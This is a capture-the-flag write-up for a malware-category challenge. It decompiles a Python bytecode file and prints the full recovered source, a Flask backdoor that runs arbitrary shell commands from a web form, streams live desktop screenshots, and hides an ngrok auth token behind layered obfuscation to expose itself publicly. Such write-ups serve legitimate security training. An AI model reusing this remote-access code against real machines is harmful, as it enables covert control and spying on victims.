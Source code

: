 ## Name: Brain Melt 2
#### Category: Malware
#### Difficulty: Medium
#### Description: We'll skip Pyinstxtractor this time so it should be easy right? Note, the archive password is infected and the flag format varies slightly from the hexidecimal and length format. 

## Procedure
run ```file brain-melt-2.pyc``` command<br>

output ```brain-melt-2.pyc: Byte-compiled Python module for CPython 3.8, timestamp-based, .py timestamp: Tue May 21 21:08:49 2024 UTC, .py size: 4963 bytes```<br>

For pyc file we need to recover the python code, i always use pycdc tool for it, you can download pycdc from ```https://github.com/zrax/pycdc```, then just run ```./pycdc ~/brain-melt-2.pyc > brain.py```.<br>

### Brain-melt-2.py content
1) decrypt1, decrypt2, and decrypt3 functions are defined to decrypt various parts of a string to generate a key.<br>
2) deobfuscate function combines the results of the three decryption functions to form a key.<br>
3) ngrok_tunnel sets up an ngrok tunnel using this key.<br>
4) Desktop function takes a PIL image and prepares it to be sent as a JPEG file.<br>
5) execute function runs a shell command and flashes the output to the web interface.<br>

```
from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, StringField, validators, SubmitField
import subprocess
import pyautogui
import io
from PIL import Image
from Crypto.Cipher import Salsa20
from pyngrok import ngrok
import base64
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def decrypt1(encrypted_str):
    decoded_str = ''
    for i in range(0, len(encrypted_str), 2):
        encoded_chunk = encrypted_str[i:i + 2] + '=='
        decoded_str += base64.b64decode(encoded_chunk).decode('ascii')
    return decoded_str

def decrypt2(a1, a2):
    result = ''
    for character in a1:
        tempcharaddedr = 'temporary value'
        result += chr(((ord(character) - ord('a')) + a2) % 26 + ord('a'))
    return result

def decrypt3(s1, key):
    msg_nonce = s1[:8]
    ciphertext = s1[8:]
    cipher = Salsa20.new(key=key.encode('utf-8'), nonce=msg_nonce)
    return cipher.decrypt(ciphertext).decode('utf-8')

def deobfuscate():
    part1 = decrypt1('ZgbAYQZwewMAOAZQOQYwYwNQYgMA')
    part2 = decrypt2('fwvcttjsfvrshwsg', 17)
    part3 = decrypt3(b'\x97p#2\x1abw\x0f\x9a\xd1Z\x04b\x93\xa1h8]\xab\xa3\x9e7\xc9\xe8\x9b', '25dbd4f362f7d0e64b24ab231728a1fc')
    key = part1 + part2 + part3
    return key

def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000)
    print(f" * Tunnel URL: {http_tunnel.public_url}")

def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', quality=70)
    img_io.seek(0)
    return send_file(img_io, mimetype='image/jpeg')

def execute(cmd):
    try:
        result = subprocess.run(cmd, shell=True, capture_output=True, text=True, check=True)
        flash(result.stdout)
        flash(result.stderr)
    except subprocess.CalledProcessError as e:
        flash(f"Error: {e}")

class CommandForm(Form):
    command = StringField('Command:', [validators.DataRequired()])
    submit = SubmitField('Submit')

@app.route('/', methods=['GET', 'POST'])
def display():
    form = CommandForm(request.form)
    if request.method == 'POST' and form.validate():
        command = form.command.data
        execute(command)
    return render_template_string('''<!doctype html>
        <html>
        <head>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
        </head>
        <body>
            <div class="container">
                <h1>Command Executor</h1>
                <form method="post">
                    <div class="form-group">
                        <label for="command">Command:</label>
                        <input type="text" class="form-control" id="command" name="command">
                    </div>
                    <button type="submit" class="btn btn-success">Submit</button>
                </form>
                {% for message in get_flashed_messages() %}
                <div class="alert alert-info">{{ message }}</div>
                {% endfor %}
                <img src="/images/desktop.jpg" id="img" width="100%" style="height: 100vh;">
            </div>
            <script type="text/javascript">
                window.onload = function() {
                    var image = document.getElementById("img");
                    function updateImage() {
                        image.src = image.src.split("?")[0] + "?" + new Date().getTime();
                    }
                    setInterval(updateImage, 1000);
                }
            </script>
        </body>
        </html>''', form=form)

@app.route('/images/desktop.jpg')
def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

if __name__ == '__main__':
    glob_key = '24a0b299984ee8da7aae14b7163e2e63'
    print("flag: ",deobfuscate())
    #ngrok_tunnel()
    #app.run(host='0.0.0.0', debug=False)

```
<br>

i have edited the code just to call deobfuscate function and decrypt our flag.

<img width="874" alt="Screenshot 2024-05-26 at 00 17 23" src="https://github.com/sp34rh34d/CTF-writeups/assets/94752464/377ba6f8-cd8d-4a9a-8dbd-0cf37f348ac1">
<br>

flag ```flag{08e9cc5b0wnmtkkajwmijynjx3a415bd9a8024930}```

